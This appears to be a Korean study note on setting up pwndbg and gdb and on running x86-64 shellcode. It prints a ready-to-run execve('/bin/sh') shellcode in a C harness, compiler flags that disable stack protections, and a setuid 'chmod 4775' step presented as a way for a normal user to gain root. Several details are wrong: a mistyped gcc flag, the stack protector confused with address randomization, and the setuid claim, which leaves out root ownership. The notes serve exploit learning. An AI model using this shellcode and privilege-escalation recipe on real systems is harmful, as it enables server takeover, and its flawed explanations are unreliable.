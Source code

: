 더욱 구체적이고 좋은 디버깅 툴을 이용할 것인데 이 도구는 깃허브에서 제공한다. `git clone https://github.com/pwndbg/pwndbg` 을 입력하여 pwndbg를 다운받는다. 디버깅할 폴더로 이동하여 `gdb 해당파일이름`을 통해 디버깅을 하게 된다. Breaking point를 `break * _start`와 같이 지정해 `run`으로 실행하고, `ni`라는 명령어로 한줄씩 next instruction 한다.
   
>Shell code

명령 Shell을 실행 시켜 해킹을 당하는 서버 컴퓨터를 제어하도록 하는 코드이다.
특정한 소프트웨어의 버퍼오버플로우 같은 취약점 등을 이용한 쉘 코드를 이용할 수 있다. 루트 권한으로 실행된다면 장악할 수 있다. 예) 명령 프롬프트   

```C
#include <stdio.h>
#include <string.h>

char shell[] =  "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

void main() {
        printf("length : %d bytes\n", strlen(shell));
        (*(void( *)()) shell)();
        return 0;
}
```
해당 Shell code는 Google에 검색하면 찾을 수 있다.   
기본적으로 최신의 OS는 프로그램 컴파일시 스택 프로텍터 같은 것으로 프로그램이 실행될 때 마다 디렉터리나 파일등의 메모리 주소등이 계속 변화한다. 실습과정에서는 이러한 보호기법을 모두 끄고 하게 될 것이다.
`gcc --fno-stack-protector -mpreferred-stack-boundary=4 -z execstack shell.c -o shell` 이렇게 만들어진 쉘 프로그램은 `chmod 4775 shell`로 해당 프로그램을 실행하면 루트권한을 얻을 수 있게 한다. 일반적인 유저권한으로 해당 프로그램을 실행하면 루트권한을 따게 되어 모든 작업을 할 수 있게 된다.
